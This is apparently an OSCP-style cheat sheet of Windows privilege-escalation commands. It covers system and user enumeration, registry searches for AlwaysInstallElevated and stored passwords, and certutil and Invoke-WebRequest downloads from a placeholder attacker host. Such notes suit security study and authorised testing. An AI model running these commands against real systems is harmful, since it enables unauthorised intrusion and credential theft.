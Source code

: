 1. Get sysinfo
2. net users
3. net user joe (are they a part of admin group)
5. schtasks /query /fo LIST /v
6. tasklist /SVC
7. wmic /?
8. reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
9. reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
10. dir /s *pass* == *cred* == *vnc* == *.config*
11. findstr /si password *.xml *.ini *.txt
12.  reg query HKLM /f password /t REG_SZ /s
13.  reg query HKCU /f password /t REG_SZ /s



# File Transfers #
1. certutil -urlcache -split -f http://192.168.XXX.XXX:8000/test.txt test.txt'
2. Invoke-WebRequest -Uri http://192.168.XXX.XXX:8000/test.txt -Outfile test.txt

Great Resource: https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
